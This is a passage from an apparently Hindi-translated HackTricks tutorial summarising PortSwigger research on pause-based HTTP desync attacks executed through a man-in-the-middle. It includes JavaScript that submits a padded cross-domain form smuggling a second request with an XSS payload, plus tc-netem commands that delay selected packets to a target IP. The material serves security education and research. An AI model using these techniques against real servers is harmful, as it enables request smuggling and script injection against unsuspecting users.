 **एपाची ALB के पीछे शोषण करने** के मामले में एक अतिशय छोटी समय-खिड़की होती है - **दोनों सर्वरों** का डिफ़ॉल्ट **टाइमआउट 60 सेकंड** होता है। इससे अनुरोध के दूसरे हिस्से को भेजने के लिए एक अत्यंत संकीर्ण समय-खिड़की बचती है। RC हमला अंततः 66 घंटे के बाद सफल रहा।

### MITM शोषण

एक पॉज-डिसिंक संकटापन्नता को शोषण करने के लिए ब्राउज़र से एक अनुरोध को रोकना **संभव नहीं है** लेकिन आप हमेशा एक MITM हमला करके ब्राउज़र द्वारा भेजे गए एक अनुरोध को रोक सकते हैं। ध्यान दें कि इस हमले में किसी भी ट्रैफिक को डिक्रिप्ट करने की आवश्यकता नहीं होती है।

हमला फ्लो एक नियमित क्लाइंट-साइड डिसिंक हमले के बहुत **समान होता है**। उपयोगकर्ता एक हमलावर नियंत्रित पृष्ठ पर जाता है, जो लक्षित एप्लिकेशन को एक श्रृंखला के **क्रॉस-डोमेन अनुरोध** जारी करता है। **पहला HTTP** अनुरोध इतना **बड़ा** होता है कि ऑपरेटिंग सिस्टम इसे **एकाधिक TCP पैकेटों में विभाजित** करता है, जिससे एक सक्रिय **MITM अंतिम पैकेट को विलंबित** कर सकता है, जो एक पॉज-आधारित डिसिंक को ट्रिगर करता है। पैडिंग के कारण, **हमलावर** यह निर्धारित कर सकता है कि **कौन सा पैकेट विलंबित करें** आकार के आधार पर।

क्लाइंट-साइड से यह एक नियमित क्लाइंट-साइड डिसिंक की तरह दिखता है, अनुरोध पैडिंग के अलावा:
```javascript
let form = document.createElement('form')
form.method = 'POST'
form.enctype = 'text/plain'
form.action = 'https://x.psres.net:6082/redirect?'+"h".repeat(600)+ Date.now()
let input = document.createElement('input')
input.name = "HEAD / HTTP/1.1\r\nHost: x\r\n\r\nGET /redirect?<script>alert(document.domain)</script> HTTP/1.1\r\nHost: x\r\nFoo: bar"+"\r\n\r\n".repeat(1700)+"x"
input.value = "x"
form.append(input)
document.body.appendChild(form)
form.submit()
```
आक्रमक प्रणाली पर अंधकार MITM करने वाले हमलावर सिस्टम पर, देरी को tc-NetEm का उपयोग करके लागू किया गया था:
```bash
# Setup
tc qdisc add dev eth0 root handle 1: prio priomap

# Flag packets to 34.255.5.242 that are between 700 and 1300 bytes
tc filter add dev eth0 protocol ip parent 1:0 prio 1 basic \
match 'u32(u32 0x22ff05f2 0xffffffff at 16)' \
and 'cmp(u16 at 2 layer network gt 0x02bc)' \
and 'cmp(u16 at 2 layer network lt 0x0514)' \
flowid 1:3

# Delay flagged packets by 61 seconds
tc qdisc add dev eth0 parent 1:3 handle 10: netem delay 61s
```
## **संदर्भ**

* इस पोस्ट की सभी जानकारी [https://portswigger.net/research/browser-powered-desync-attacks](https://portswigger.net/research/browser-powered-desync-attacks) से ली गई है।

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
